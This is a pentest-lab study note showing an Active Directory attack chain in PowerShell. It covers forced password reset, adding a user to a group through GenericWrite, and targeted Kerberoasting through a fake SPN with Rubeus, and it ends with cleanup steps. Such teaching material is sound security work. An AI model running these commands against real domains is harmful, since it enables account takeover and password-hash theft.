

### Content
- Abuse `User-Force-Change-Password`
- Abuse `GenericWrite` over a group
- Abuse `GenericAll` to conduct targeted Kerberoasting attack 
---
After the enumeration, we gained a lot of information, now to perform the attack chain we have to do the following then clean up at the end.


1. Use the `wley` user to change the password for the `damundsen` user by abusing the User-Force-Change-Password
	``` PowerShell
	# Login into the controlled user (wley), or create a PSCredential object for that user
	PS C:\> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
	PS C:\> $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\wley', $SecPassword) 
	# Create SecureString to set for the target user damundsen.
	PS C:\> $damundsenPassword = ConvertTo-SecureString 'new_password123@' -AsPlainText -Force
	# Import PowerView and use the Set-DomainUserPassword function
	PS C:\> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
	```

2. Authenticate as the `damundsen` user and leverage `GenericWrite` rights to add a user that we control to the `Help Desk Level 1` group
	``` PowerShell
	# Creating a SecureString Object using damundsen
	PS C:\> $SecPassword = ConvertTo-SecureString 'new_password123@' -AsPlainText -Force
	PS C:\> $Cred2 = New-Object System.Management.Automation.PSCredential('DOMAIN\damundsen', $SecPassword)
	# Import PowerView and use the Add-DomainGroupMember function to add ourselves to the target group.
	PS C:\> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
	```

3. Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.
	``` PowerShell
	# Creating a SecureString Object using damundsen
	PS C:\> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='hacker/SERVICE'} -Verbose
	# Kerberoasting with Rubeus
	PS C:\> .\Rubeus.exe kerberoast /user:adunn /nowrap
	[SNIP]
	[*] SamAccountName         : adunn
	[*] DistinguishedName      : CN=Angela Dunn,OU=Server Admin,OU=IT......
	[*] ServicePrincipalName   : hacker/SERVICE
	[*] PwdLastSet             : 3/1/2022 11:29:08 AM
	[*] Supported ETypes       : RC4_HMAC_DEFAULT
	[*] Hash                   : $krb5tgs$23$*adunn$DOMAIN.LOCAL$hacker/SERVICE@DOMAIN.LOCAL*$ <SNIP>
	[SNIP]
	PS C:\> 
	```

4. Clean Up
``` PowerShell
# 1.Remove the fake SPN we created on the adunn user.
PS C:\> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
# 2.Remove the damundsen user from the Help Desk Level 1 group
PS C:\> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
# Confirming damundsen was Removed from the Group
PS C:\> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
# 3.Set the password for the damundsen user back to its original value (if we know it) or have our client set it/alert the user
```
---